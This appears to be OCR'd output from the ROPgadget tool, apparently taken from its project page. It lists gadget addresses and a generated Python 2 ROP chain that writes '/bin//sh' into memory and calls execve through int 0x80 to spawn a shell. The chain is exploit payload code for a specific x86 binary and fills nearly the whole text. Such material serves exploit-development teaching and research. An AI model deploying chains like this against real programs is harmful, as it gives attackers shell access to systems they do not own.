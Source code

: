 ```

	[+] Gadget found: 0x80481d1 pop ebx ; ret
	[+] Gadget found: 0x80e2fc9 pop ecx ; ret
	[+] Gadget found: 0x807299a pop edx ; ret

- Step 4 -- Syscall gadget

	[+] Gadget found: 0x8070605 int 0x80

- Step 5 -- Build the ROP chain

	#!/usr/bin/env python2
	# execve generated by ROPgadget

	from struct import pack

	# Padding goes here
	p = ''

	p += pack('<I', 0x0807299a) # pop edx ; ret
	p += pack('<I', 0x080ee060) # @ .data
	p += pack('<I', 0x080bbb46) # pop eax ; ret
	p += '/bin'
	p += pack('<I', 0x0805495b) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0807299a) # pop edx ; ret
	p += pack('<I', 0x080ee064) # @ .data + 4
	p += pack('<I', 0x080bbb46) # pop eax ; ret
	p += '//sh'
	p += pack('<I', 0x0805495b) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x0807299a) # pop edx ; ret
	p += pack('<I', 0x080ee068) # @ .data + 8
	p += pack('<I', 0x080493e3) # xor eax, eax ; ret
	p += pack('<I', 0x0805495b) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080481d1) # pop ebx ; ret
	p += pack('<I', 0x080ee060) # @ .data
	p += pack('<I', 0x080e2fc9) # pop ecx ; ret
	p += pack('<I', 0x080ee068) # @ .data + 8
	p += pack('<I', 0x0807299a) # pop edx ; ret
	p += pack('<I', 0x080ee068) # @ .data + 8
	p += pack('<I', 0x080493e3) # xor eax, eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x0807e1df) # inc eax ; ret
	p += pack('<I', 0x08070605) # int 0x80
```
